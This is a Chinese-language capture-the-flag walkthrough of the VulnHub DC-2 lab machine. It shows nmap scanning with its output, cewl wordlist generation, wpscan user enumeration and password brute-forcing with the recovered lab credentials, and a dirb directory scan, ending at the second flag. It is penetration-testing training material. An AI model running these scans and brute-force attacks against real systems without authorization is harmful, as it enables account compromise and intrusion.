 <center>DC-2</center>



[toc]





## DC-2

> vulnhub： [dc-2](https://www.vulnhub.com/entry/dc-2,311/)







### 1. 信息收集

```shell
# 扫描网段
nmap -sP 172.16.168.128/24

# 扫描靶机地址
nmap -p- 172.16.168.133 -A 
```

```shell
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Did not follow redirect to http://dc-2/
|_http-server-header: Apache/2.4.10 (Debian)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 00:0C:29:92:7A:9A (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# 开放了 80 apache   7744 ssh
```

> 第一次打开，跳转到`dc-2`域名。需要修改我们本地`hosts`

```shell
sudo vim /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
172.16.168.133  dc-2
```

> 有一个`flag`页面，提供一些信息
>
> `wordpress`搭建的平台。

```txt


Flag 1:

Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.
您常用的单词表可能不起作用，所以也许您只需要 cewl。
More passwords is always better, but sometimes you just can’t win them all.

Log in as one to see the next flag.

If you can’t find it, log in as another.

```

1. 工具`cewl`  [github](https://github.com/digininja/CeWL)

> CeWL 是一个爬虫工具，可以爬取指定网站的内容并生成自定义字典，常用于渗透测试中的密码破解。

```shell
# 安装
sudo apt install cewl

# 使用
cewl http://example.com
# 指定最小词长度为8，爬取深度为2层，并保存到文件
cewl http://example.com -m 8 -d 2 -w output.txt
# 包含邮箱地址
cewl http://example.com --email
```

```shell
# cewl 爬取网站信息，作为密码。
cewl http://dc-2/ > pass.txt

# 查看
cat pass.txt
```

2. 工具： `wpscan` [github](https://github.com/wpscanteam/wpscan)

> WPScan 这个专门用于扫描 WordPress 安全漏洞的工具：

```shell
# 安装
sudo apt install wpscan

# 枚举用户-e u
wpsacn --url url -e u

# 枚举插件  -e p
wpscan --url http://example.com -e p

# 对多个用户进行密码爆破 -U 用户 -P 密码
wpscan --url http://example.com -U users.txt -P passwords.txt
```

```shell
# 跑出三个用户
wpscan --url http://dc-2/ -e u

# cat user.txt
admin
jerry
tom

wpscan --url http://dc-2/  -U user.txt -P pass.txt

# 跑出两个用户名和密码
[SUCCESS] - jerry / adipiscing         
[SUCCESS] - tom / parturient 
```

3. 工具： `dirb`

> 网站目录扫描工具

```shell
sudo apt install dirb

# 使用
# 使用默认字典扫描
dirb http://example.com
# 指定字典扫描
dirb http://example.com /usr/share/wordlists/dirb/common.txt
```

```shell
dirb http://dc-2/

# 后台
==> DIRECTORY: http://dc-2/wp-admin/       
==> DIRECTORY: http://dc-2/wp-content/      
==> DIRECTORY: http://dc-2/wp-includes/
```

> 有一个`flag2`页面，提供一些信息

```shell
Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.

标记 2：

如果您无法利用 WordPress 并走捷径，还有其他方法。

希望您找到了另一个切入点。
```

